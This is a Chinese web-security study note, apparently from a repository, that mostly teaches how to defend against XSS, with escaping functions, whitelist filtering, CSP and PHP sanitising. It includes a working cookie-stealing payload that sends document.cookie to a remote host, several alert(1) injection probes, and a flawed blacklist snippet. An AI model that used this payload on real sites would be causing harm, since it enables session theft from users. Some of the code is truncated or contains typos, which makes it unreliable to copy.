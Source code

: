 # Web 安全

## Web 安全层次
- 代码层次
- 架构层次
- 运维层次

## 安全问题
- 用户身份被盗用
- 用户密码泄露
- 用户资料被盗取
- 网站数据库泄露



## XSS：跨站脚本攻击
> Cross Site Scripting

- 获取页面数据
- 获取 Cookies
- 劫持前段逻辑
- 发送请求

### XSS攻击分类
- 反射型：URL 参数直接注入
- 存储行：存储到 DB 后读取时注入

### XSS 攻击注入点
- HTML 节点内容
- HTML 属性
- JavaScript 代码（后台用户的变量，用户输入的变量）
- 富文本


### URL 参数直接注入
- 攻击用户url 地址：
`http://domain/?from=<script src="https://domain.com/joke.js"></script>`

- 获取数据服务器- doamin.com/joke.js
`var img = document.createElement('img')
img.width = 0;
img.hegiht = 0;
img.src='http://domain.com/joke/joke.php?joke=' + encodeURIComponent(document.cookie);`

- 攻击用户 url 地址（使用短网址,dwz.cn）发给其他用户使用之后，获取数据服务器可以得到用户的cookies，并在浏览器设置获取cookies之后，获取用户数据。


### HTML 节点内容
- `<div>{{content}}</div`
- `<div><script></script></div>`

### HTML 属性
`<img src="#{image}"/>`
`<img src="1" onerror="alert(1)"/>`
- 输入的内容：`1" onerror="alert(1)`

### JavaScript 代码（后台用户的变量，用户输入的变量）
`<script>
	var data = "#{data}";
	// hello";alert(1);" 用户输入的数据
	var data = "hello";alert(1);""
</script>`



### 富文本
- 富文本得保留HTML
- HTML 有 XSS 攻击风险


### 浏览器自带防御
- Koa: `ctx.set('X-XSS-Protection', 0);`
	+ XSS 攻击打开，对 Chrome浏览器有效
	+ 仅对 **HTML内容和属性**,富文本拦截
	+ JavaScript 注入的不能拦截
	+ 默认1：打开

### 防御 HTML 节点内容
`<div>#{content}</div>`

- 显示时候转义 
`var escapeHtml = function(str){
	if(!str) return '';
	str = str.replace(/</g,'&lt;');
	str = str.replace(/>/g,'&gt;');
	return str;
}
//输出语句
write(escapeHtml(content))
`
- 输入时转义

### 防御 HTML 属性
> 因为提前关闭引号

- 输出时转义
`var escapeHtmlProperty = function(str) {
	if(!str) return '';
	str = str.replace(/"/g, "&quote;");
	str = str.replace(/'/g, "&#39;");
	str = str.replace(/ /g, "&#32;");
	return str;
}
//输出语句
write(escapeHtmlProperty(content))
`

- 合并函数
`var escapeHtml = function(str) {
	if(!str) return '';
	// html5 之前 &也需要转义
	str = str.replace(/&/g,'&amp;');
	str = str.replace(/</g,'&lt;');
	str = str.replace(/>/g,'&gt;');
	str = str.replace(/"/g, "&quote;");
	str = str.replace(/'/g, "&#39;");
	// str = str.replace(/ /g, "&#32;");
	return str;
}`

### 防御 JavaScript 代码

- 转义"\"
`var escapeForJs = function(str) {
	if(!str) return '';
	str = str.replace(/\\/g, '\\\\')
	str = str.replace(/"/g, '\\"')
	return str;
}`

- 转换成json
`JSON.Stringify(content)`


### 防御富文本
- 过滤（输入前（一次过滤）|输出前（性能问题））
	+ 黑名单
	+ 白名单（保留部分标签和属性）

- 黑名单
var xssFilter = function(html){
	if(!html) {
		return '';
	} 
	// 黑名单
	html = html.replace(/<\s*\/?script\s*>/g, '');
	html = html.replace(/javascript:[^'"]*/ig, '');
	html = html.replace(/onerror\s*=\s*['"]?[^'"]*['"]?/ig,
	return html;
}

- 另一种JavaScript
<a href="javascript:alert(1)">来接</a>

- onerror,onclick,onmouseover,onmouseout
<img src=\"abc\" onerror=\"alert(1)\">

### 推荐：白名单富文本xss
- cheerio 库
`$ cnpm install cheerio -S`
var xssFilter2 = function(html){
	if(!html) {
		return '';
	} 
	// 黑名单
	// html = html.replace(/<\s*\/?script\s*>/g, '');
	// html = html.replace(/javascript:[^'"]*/ig, '');
	// html = html.replace(/onerror\s*=\s*['"]?[^'"]*['"]?/ig, '');
	
	var cheerio = require('cheerio');
	var $ = cheerio.load(html, {
    withDomLvl1: true,
    normalizeWhitespace: false,
    xmlMode: false,
    decodeEntities: false
});
	// 白名单
	var whiteList = {
		// 'html':[''],
		// 'head':[''],
		// 'body':[''],
		'img': ['src'],
		'a': ['href']
	};
	var exclude = ['html','head','body'];

	$('*').each(function(index, elem){
		//console.log('elem before:' , elem.name);
		// 白名单过滤标签
		if(!whiteList[elem.name] && exclude.indexOf(elem.name) === -1) {
			$(elem).remove();
			//console.log('elem after:' , elem.name);
			return;
		}
				
		//console.log(elem.name,'==============', elem.attribs)
		// 白名单过滤属性
		for(var attr in elem.attribs) {			
			if(whiteList[elem.name].indexOf(attr) === -1) {
				//console.log(elem.name, attr)
				$(elem).attr(attr, null)
				//console.log(elem.name, elem.attribs)
			}
		}
		// console.log(elem)
	})
	// console.log('过滤前：', html);
	// console.log('过滤后：', $.html());
	return $.html();
	// return html;
}


### xss 模块
- cnpm install xss -S
var xssFilter = function(html){
	if(!html) {
		return '';
	}
	var xss = require('xss');
	var ret = xss(html);
	var ret = xss(html, {
		onIgnoreTag: function(){
			return '';
		}
	});
}

### CSP
> Content Security Policy
CSP全称Content Security Policy ,可以直接翻译为内容安全策略,说白了,就是为了页面内容安全而制定的一系列防护策略. 通过CSP所约束的的规责指定可信的内容来源（这里的内容可以指脚本、图片、iframe、fton、style等等可能的远程的资源）。通过CSP协定，让WEB处于一个安全的运行环境中。
- 内容安全策略
- 用于指定哪些内容可执行

有什么用?
我们知道前端有个很著名的**同源策略**,简而言之,就是说一个页面的资源只能从与之同源的服务器获取,而不允许跨域获取.这样可以避免页面被注入恶意代码,影响安全.但是这个策略是个双刃剑,挡住恶意代码的同时也限制了前端的灵活性,那有没有一种方法既可以让我们可以跨域获取资源,又能防止恶意代码呢?
答案是当然有了,这就是csp,通过csp我们可以制定一系列的策略,从而只允许我们页面向我们允许的域名发起跨域请求,而不符合我们策略的恶意攻击则被挡在门外.从而实现
需要说明的一点是,目前主流的浏览器都已支持csp.所以我们可以放心大胆的用了.

指令说明
指令就是csp中用来定义策略的基本单位,我们可以使用单个或者多个指令来组合作用,功能防护我们的网站.
指令名					demo										说明
default-src		'self' cdn.example.com	默认策略,可以应用于js文件/图片/css/ajax请求等所有访问
script-src		'self' js.example.com		定义js文件的过滤策略
style-src			'self' css.example.com	定义css文件的过滤策略
img-src				'self' img.example.com	定义图片文件的过滤策略
connect-src		'self'									定义请求连接文件的过滤策略
font-src			font.example.com				定义字体文件的过滤策略
object-src		'self'									定义页面插件的过滤策略,如 <object>, <embed> 或者<applet>等元素
media-src			media.example.com				定义媒体的过滤策略,如 HTML6的 <audio>, <video>等元素
frame-src			'self'									定义加载子frmae的策略
sandbox				allow-forms allow-scripts	沙盒模式,会阻止页面弹窗/js执行等,你可以通过添加allow-forms allow-same-origin allow-scripts allow-popups, allow-modals, allow-orientation-lock, allow-pointer-lock, allow-presentation, allow-popups-to-escape-sandbox, and allow-top-navigation 策略来放开相应的操作

report-uri		/some-report-uri

#### 指令值
所有以-src结尾的指令都可以用一下的值来定义过滤规则,多个规则之间可以用空格来隔开
值				demo									说明

*				img-src *							允许任意地址的url,但是不包括 blob: filesystem: schemes.

'none'	object-src 'none'			所有地址的咨询都不允许加载

'self'	script-src 'self'			同源策略,即允许同域名同端口下,同协议下的请求

data:		img-src 'self' data:	允许通过data来请求咨询 (比如用Base64 编码过的图片).

domain.example.com	img-src domain.example.com		允许特性的域名请求资源

*.example.com		img-src *.example.com			允许从 example.com下的任意子域名加载资源

https://cdn.com	img-src https://cdn.com		仅仅允许通过https协议来从指定域名下加载资源

https:		img-src https:		只允许通过https协议加载资源

'unsafe-inline'		script-src 'unsafe-inline'		允许行内代码执行

'unsafe-eval'			script-src 'unsafe-eval'			允许不安全的动态代码执行,比如 JavaScript的 eval()方法


#### 示例
default-src 'self';   只允许同源下的资源
script-src 'self';    只允许同源下的js
script-src 'self' www.google-analytics.com ajax.googleapis.com;		允许同源以及两个地址下的js加载
default-src 'none'; script-src 'self'; connect-src 'self'; img-src 'self'; style-src 'self';	多个资源时,后面的会覆盖前面的

 #### 服务器端配置
- Apache服务
在VirtualHost的httpd.conf文件或者.htaccess文件中加入以下代码
Header set Content-Security-Policy "default-src 'self';"

- Nginx
在 server {}对象块中添加如下代码
add_header Content-Security-Policy "default-src 'self';";

- IIS 
web.config:中添加

<system.webServer>

  <httpProtocol>

    <customHeaders>

      <add name="Content-Security-Policy" value="default-src 'self';" />

    </customHeaders>

  </httpProtocol>

</system.webServer>

#### 参考链接:
https://www.zhihu.com/question/21979782
https://content-security-policy.com/

- child-src connect-src default-src
	+ iframe
- font-src frame-src img-src
- manifest-src media-src object-src
- script-src style-src worker-src

- <host-source> <scheme-source> 'self'
- 'unsafe-inline' 'unsafe-eval' 'none'
- 'nonce-<base64-value>' <hash-source>
- 'strict-dynamic'

- MDN 网站

### PHP 中防御 XSS
- 内置函数转义
- DOM 解析白名单
- 第三方库
- CSP

#### 内置函数转义
- strip_tags($cont)
- htmlspecialchars($cont, ENT_QUOTES)
	+ &,<,>,',"
	+ 默认不转义单引号
	+ ENT_QUOTES 可以转义单引号

#### DOM 解析白名单
- PHP 5+
- DOMDocument class

#### 第三方库
- github.com

- HTML Purifier
	+ library

require_once './library/HTMLPurifier.auto.php';
$purifier = new HTMLPurifier();
$content = $purifier->purify($cont)

#### 第三方库
header('X-Xss-Protection: 0')
header("Content-Security-Policy: script-src 'self'")

<script>alert(1)</script>
<div>12323</div>
<p>param</div>
<img onerror="alert(1)"> src="test.jpg"/>


## CSRF：跨站请求伪造攻击

## 前段 Cookies 安全性

## 点击劫持攻击

## 传输安全安全问题

## 用户密码安全问题

## SQL注入攻击

## 信息泄露和社会工程学

## 其他安全问题
